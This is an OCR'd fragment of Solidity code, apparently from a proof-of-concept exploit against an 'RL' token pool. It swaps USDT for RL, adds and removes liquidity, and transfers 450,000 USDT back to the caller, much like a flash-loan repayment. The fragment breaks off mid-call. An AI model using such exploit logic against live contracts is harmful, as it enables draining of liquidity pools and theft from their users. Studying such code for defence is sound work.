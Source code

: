 │                                                                                                                                                                                                                                                      │
│         removeLiquidityAndSellRL();                                                                                                                                                                                                                  │
│         USDT.transfer(msg.sender, 450_000 * 1e18);                                                                                                                                                                                                   │
│     }                                                                                                                                                                                                                                                │
│     function buyRLAndAddLiquidity() public{                                                                                                                                                                                                          │
│         address [] memory path = new address[](2);                                                                                                                                                                                                   │
│         path[0] = address(USDT);                                                                                                                                                                                                                     │
│         path[1] = address(RL);                                                                                                                                                                                                                       │
│         Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                                │
│             150_000 * 1e18,                                                                                                                                                                                                                          │
│             0,                                                                                                                                                                                                                                       │
│             path,                                                                                                                                                                                                                                    │
│             address(this),                                                                                                                                                                                                                           │
│             block.timestamp                                                                                                                                                                                                                          │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         Router.addLiquidity(                                                                                                                                                                                                                         │
│             address(USDT),                                                                                                                                                                                                                           │
│             address(RL),                                                                                                                                                                                                                             │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             RL.balanceOf(address(this)),                                                                                                                                                                                                             │
